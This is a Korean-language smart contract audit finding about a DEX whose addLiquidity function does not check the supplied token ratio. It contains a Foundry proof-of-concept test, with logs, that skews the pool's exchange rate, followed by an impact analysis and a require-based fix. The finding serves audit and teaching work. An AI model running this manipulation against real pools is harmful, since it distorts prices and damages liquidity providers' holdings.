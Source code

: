 # DEX - addLiquidity의 유동성 공급비 검증의 부재

## 설명

<aside>

### **키워드 : Vulnerability - 유동성 풀 조작**

### **심각도 : Critical**

`addLiquidity` 함수내부에서 두 토큰의 유동성 공급량 비율에 대한 검증이 이루어지지 않는다.
이를 악용하여 유동성 풀에 원하는 비율로 토큰을 공급하여 교환비를 조작할 수 있다.

</aside>

```solidity
if (liquiditySum == 0) {
    lpToken = Math.sqrt(tokenXAmount * tokenYAmount); //initial token amount
} else {
    (X, Y) = update();

    // 기존 토큰에 대한 새 토큰의 비율로 계산
    uint liquidityX = (liquiditySum * tokenXAmount) / X;
    uint liquidityY = (liquiditySum * tokenYAmount) / Y;
    lpToken = (liquidityX < liquidityY) ? liquidityX : liquidityY;
}
_tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
_tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
transfer(msg.sender, lpToken);
```

토큰 발급은 더 적은 토큰 공급량에 맞추기 때문에 이를 악용하여 DEX의 유동성을 탈취하는 행위는 불가능하다.

하지만 기존 비율과 맞지 않는 유동성을 공급할 수 있고, 이는 전체 유동성 풀의 비율을 깨뜨릴 수 있게 된다.

## PoC

```solidity
function testPOC() external {
    tokenX.transfer(address(0x01), 1 ether);
    tokenY.transfer(address(0x01), 100 ether);

    tokenX.transfer(address(0x02), 100 ether);
    tokenY.transfer(address(0x02), 102 ether);
    uint256 LP1;
    vm.startPrank(address(0x01));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        LP1 = dex.addLiquidity(1 ether, 100 ether, 0);
        console.log("LP1", LP1);
    }
    vm.stopPrank();

    vm.startPrank(address(0x02));
    {
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        uint256 lp = dex.addLiquidity(100 ether, 1 ether, 0);
        console.log("LP2", lp);

        console.log(
            "user 2 : before swap balance",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );
        uint res = dex.swap(0, 101 ether, 0);
        console.log(
            "user 2 : after swap balance",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );

        dex.removeLiquidity(lp, 0, 0);
        console.log(
            "user 2 : Attack result",
            tokenX.balanceOf(address(0x02)),
            tokenY.balanceOf(address(0x02))
        );
    }
    vm.stopPrank();
}
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 422523)
Logs:
  LP1 10000000000000000000
  LP2 100000000000000000
  user 2 : before swap balance 0 101000000000000000000
  user 2 : after swap balance 50474737368684342171 0
  user 2 : Attack result 50974987493746873436 2000000000000000000
```

swap의 결과를 보면 알 수 있듯 100:1 의 가치로 교환이 되어야 하지만 유동성 풀의 비율이 101:101 로 깨진 상태이기에 Y토큰 101 ether로 X 토큰 약 50 ether를 교환한 것을 확인할 수 있다.

하지만 토큰 발행량은 더 적은 쪽인 Y토큰에 맞춰 발행되었기에  토큰 수는 실제 공급량보다 적게 발행되었기에 공격을 시도하더라도 공격자가 이득을 취할 수 있는 방법은 존재하지 않는 것으로 보인다.

## 파급력

개인이든 집단이든 공격을 통해 유동성풀의 비율을 깨뜨려 교환비를 변경할 수는 있지만, 공격을 통해 깨진 유동성 풀의 비율로 인한 이득은 기존에 유동성풀을 공급한 모두가 공유하는 구조이기에 공격을 위해 투자한 비용을 모두 회수하며 추가적인 이득을 보는 방법은 존재하지 않는다.

피싱이나 요청을 조작하는 등 제 3자가 잘못된 비율로 유동성공급을 하도록 유도한 뒤 변화한 유동성을 이용하여 토큰을 변환하거나 유동성을 제거하여 이득을 취할 수는 있지만 이를 직접 유동성의 변화를 만든뒤 이득을 취하는 용도로 악용하는 방도는 없어 보인다.

그렇다고 할지라도 DEX의 중심 기능이자 핵심인 유동성 풀의 비율을 자본을 투입하여 망가뜨릴 수 있다는 것은 DEX의 가용성을 해친다고도 볼 수 있기에 위험도는 매우 위험하다고 판단하였다.

## 해결 방법

```solidity
require(
    tokenXAmount * amountY == tokenYAmount * amountX,
    "imbalance add liquidity"
);
```

를 추가하여 비율이 맞지 않으면 revert 시키거나 비율에 맞는 만큼만 공급량에 추가하도록 로직을 수정해야 한다.
